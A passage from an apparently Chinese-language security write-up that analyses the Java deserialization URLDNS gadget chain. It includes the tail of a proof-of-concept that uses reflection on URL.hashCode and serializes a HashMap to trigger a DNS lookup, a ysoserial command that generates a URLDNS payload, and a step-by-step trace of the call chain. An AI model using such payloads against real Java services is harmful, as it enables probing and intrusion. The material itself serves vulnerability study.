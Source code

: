 ```java
        //修改url的hashCode字段为-1，为了触发DNS查询（之后会解释）
        f.set(url, -1);
        //0x02.写入文件模拟网络传输
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
        //0x03.读取文件，进行反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}


```

![NXaGcR.png](https://s1.ax1x.com/2020/07/03/NXaGcR.png)

![NXa839.png](https://s1.ax1x.com/2020/07/03/NXa839.png)

### ②、ysoserial 生成payload

> java -jar .\ysoserial-master-30099844c6-1.jar URLDNS http://www.baidu.com > res.bin

![NXo5jI.png](https://s1.ax1x.com/2020/07/03/NXo5jI.png)

### ③、分析
分析如下 反序列化的是`HashMap` 因此寻找 对应的`readObject`

![NXB5d0.png](https://s1.ax1x.com/2020/07/03/NXB5d0.png)

`HashMap`的`readObject` 会调用`hash`方法，而`key`值 通过payload 添加了一项  `url`,而`hash`内会调用`hashcode`方法，
![NXy2t0.png](https://s1.ax1x.com/2020/07/03/NXy2t0.png)

![NXBfLn.png](https://s1.ax1x.com/2020/07/03/NXBfLn.png)

经过多次调用最终会调用到`java.io.URL`的`hashcode`,目的是调用`hashcode(this)`，因此 `this.hashcode` 不为-1即可
![NXB4Zq.png](https://s1.ax1x.com/2020/07/03/NXB4Zq.png)

因为 `hashcode` 为`private` 属性，因此需要用反射的方式去修改值
![NXy67n.png](https://s1.ax1x.com/2020/07/03/NXy67n.png)

![NXygkq.png](https://s1.ax1x.com/2020/07/03/NXygkq.png)



然后的`hashcode` 会调用 `getHostAddress`

![NXBWss.png](https://s1.ax1x.com/2020/07/03/NXBWss.png)

最终调用了`getByName`,完成了DNS 请求，此时的host 在payload里被设置成想要的host
![NXcMse.png](https://s1.ax1x.com/2020/07/03/NXcMse.png)

![NXBRMj.png](https://s1.ax1x.com/2020/07/03/NXBRMj.png)


## 五、参考

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312)

[JAVA反序列化-ysoserial-URLDNS](https://www.anquanke.com/post/id/201762)

[]()

